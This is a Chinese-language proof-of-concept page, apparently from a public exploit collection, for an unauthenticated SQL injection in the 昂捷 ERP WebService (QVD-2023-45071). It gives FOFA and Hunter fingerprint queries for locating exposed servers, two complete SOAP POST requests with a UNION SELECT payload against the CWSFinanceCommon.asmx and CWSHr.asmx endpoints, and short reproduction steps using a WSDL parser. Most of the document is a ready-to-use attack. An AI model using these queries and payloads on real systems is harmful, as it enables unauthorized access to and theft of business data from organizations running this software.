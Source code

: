 ## 昂捷ERP-WebService接口-SQL注入漏洞(QVD-2023-45071)
 昂捷ERP WebService接口 存在SQL注入漏洞，未经身份验证的攻击者可以利用该漏洞泄露系统敏感信息。 

## fofa
```
body="CheckSilverlightInstalled"
```

## hunter
```
web.body="CheckSilverlightInstalled"
```

## SQL注入点1 /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx
```
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: xxx.xxx.xxx.xxx:8008
Content-Type: text/xml; 
charset=utf-8
Content-Length: 482

SOAPAction: "http://tempuri.org/GetOSpById"
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetOSpById xmlns="http://tempuri.org/"><sId>string' UNION SELECT NULL,NULL,NULL,NULL,(select @@version),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YQmj</sId></GetOSpById></soap:Body></soap:Envelope>
```

##  SQL注入点2 /EnjoyRMIS_WS/WS/Hr/CWSHr.asmx
```
POST /EnjoyRMIS_WS/WS/Hr/CWSHr.asmx HTTP/1.1
Host: xxx.xxx.xxx.xxx:8008
Content-Type: text/xml; 
charset=utf-8
Content-Length: 482

SOAPAction: "http://tempuri.org/GetOSpById"
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><GetOSpById xmlns="http://tempuri.org/"><sId>string' UNION SELECT NULL,NULL,NULL,NULL,(select @@version),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YQmj</sId></GetOSpById></soap:Body></soap:Envelope>
```

## 漏洞复现
访问漏洞点存在的地址

http://xxx.xxx.xxx.xxx:9012/EnjoyRMIS_WS/WS/Hr/CWSHr.asmx

在地址后面加上?wsdl

http://xxx.xxx.xxx.xxx:8123/EnjoyRMIS_WS/WS/Hr/CWSHr.asmx?wsdl

![image](https://github.com/wy876/POC/assets/139549762/a0b95351-845e-49c5-ba1e-8831cf85df9e)

使用wsdler拓展工具解析

![image](https://github.com/wy876/POC/assets/139549762/0537ac47-e89a-41fa-b925-cca83fba75ae)

解析完成之后，即可对这些接口进行测试

![image](https://github.com/wy876/POC/assets/139549762/c1206032-8405-40e4-8ab4-69a68ee22d7f)


